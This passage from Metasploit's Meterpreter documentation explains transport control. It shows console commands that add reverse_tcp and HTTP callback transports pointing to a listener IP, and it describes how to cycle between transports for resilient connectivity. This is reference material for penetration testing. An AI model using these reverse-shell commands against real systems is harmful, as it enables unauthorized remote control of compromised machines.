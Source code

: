 The following shows another example which adds another `reverse_tcp` transport to the transport list:

```bash
meterpreter > transport add -t reverse_tcp -l 10.1.10.40 -p 5005
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```

Note that these examples only add new transports, they do not change the current transport mechanism. When a transport is added to the list of transports, they are always added at the _end_ of the list, and not the start.

### Change transports

There are three different ways to change transports. One thing they do have in common is that transport switching assumes that you have listeners set up to receive the connections. If no listener or handler is present, then the resiliency features in Meterpreter will cause it to constantly attempt to establish connectivity on that transport using the transport timeout values that were configured. If the transport ultimately fails, then Meterpreter will cycle to the next transport on the list and try again. This will continue until a transport connection is successful, or the session timeout expires. More information on this can be found in the **session resiliency documentation** (link coming soon).

The three different ways to change transports are:

* `transport next` - This command will cause Meterpreter to shut down the current transport, and attempt to reconnect to Metasploit using the next transport in the list of transports.
* `transport prev` - This command is the same as `transport next`, except that it will move to the previous transport on the list, and not the next one.
* `transport change ...` - This command is equivalent to running `transport add`, and requires all the parameters that `transport add` requires (resulting in a new transport at the end of the list), and then `transport prev` (which is the same as going from the start of the list to the end). The net effect is the same as creating a new transport and immediately switching to it.

As an example, here is the current transport setup:

```bash
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```


  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication